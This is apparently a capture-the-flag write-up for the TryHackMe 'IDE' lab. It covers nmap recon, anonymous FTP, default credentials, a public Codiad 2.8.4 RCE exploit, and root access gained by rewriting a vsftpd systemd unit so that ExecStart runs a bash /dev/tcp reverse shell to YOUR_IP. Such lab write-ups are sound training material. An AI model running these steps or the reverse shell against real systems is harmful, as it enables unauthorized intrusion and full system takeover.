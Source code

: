 # [IDE](https://tryhackme.com/room/ide)

First as usual, nmap

```
# Nmap 7.92 scan initiated Sat Nov 27 11:07:55 2021 as: nmap -vvv -p 22,21,80,62337 -sCV -oA init 10.10.83.179
Nmap scan report for 10.10.83.179
Host is up, received syn-ack (0.20s latency).
Scanned at 2021-11-27 11:08:03 +07 for 22s

PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.17.21.200
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC94RvPaQ09Xx+jMj32opOMbghuvx4OeBVLc+/4Hascmrtsa+SMtQGSY7b+eyW8Zymxi94rGBIN2ydPxy3XXGtkaCdQluOEw5CqSdb/qyeH+L/1PwIhLrr+jzUoUzmQil+oUOpVMOkcW7a00BMSxMCij0HdhlVDNkWvPdGxKBviBDEKZAH0hJEfexz3Tm65cmBpMe7WCPiJGTvoU9weXUnO3+41Ig8qF7kNNfbHjTgS0+XTnDXk03nZwIIwdvP8dZ8lZHdooM8J9u0Zecu4OvPiC4XBzPYNs+6ntLziKlRMgQls0e3yMOaAuKfGYHJKwu4AcluJ/+g90Hr0UqmYLHEV
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBzKTu7YDGKubQ4ADeCztKu0LL5RtBXnjgjE07e3Go/GbZB2vAP2J9OEQH/PwlssyImSnS3myib+gPdQx54lqZU=
|   256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ+oGPm8ZVYNUtX4r3Fpmcj9T9F2SjcRg4ansmeGR3cP
80/tcp    open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-favicon: Unknown favicon MD5: B4A327D2242C42CF2EE89C623279665F
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 27 11:08:25 2021 -- 1 IP address (1 host up) scanned in 30.06 seconds
```

We have anonymous FTP. Logging in, we can go into the directory `...` and `get` the file `-` which holds the following content.

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

We have 2 usernames, `john` and `drac`, and we know there's a default password used somewhere.

The website on port 80 is just the default Apache2 page, nothing special. The page on port 62337 though, is a login page. We can login with the credentials `john:password`. After logging in, we get an online IDE called "Codiad 2.8.4" which we can see in the page title. Looking up exploits for codiad, we get a few results.

```sh
$ searchsploit codiad
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities                                              | php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion                                                  | php/webapps/36371.txt
Codiad 2.8.4 - Remote Code Execution (Authenticated)                                 | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                             | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                             | multiple/webapps/49907.py
------------------------------------------------------------------------------------- ---------------------------------
```

I used `multiple/webapps/49705.py` to get a shell on the machine.

```sh
./49705.py http://10.10.83.179:62337/ john password YOUR_IP 1337 linux
```

With that, we should have a shell as `www-data`. We can go into `/home/drac` and read some files, of which `.bash_history` holds credentials for drac which we can use to `su drac`.

Checking our `sudo` privileges ...

```sh
drac@ide:~$ sudo -l
[sudo] password for drac:
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

We can restart the `vsftpd` service. To abuse this, we can edit the file `/lib/systemd/system/vsftpd.service` and change `ExecStart` to be a reverse shell.

```
ExecStart=/bin/bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/1337 <&1'
```

Then we just set up a listener and run a couple of commands.

```sh
$ sudo systemctl daemon-reload
$ sudo /usr/sbin/service vsftpd restart
```

With that, we should have a shell as root.
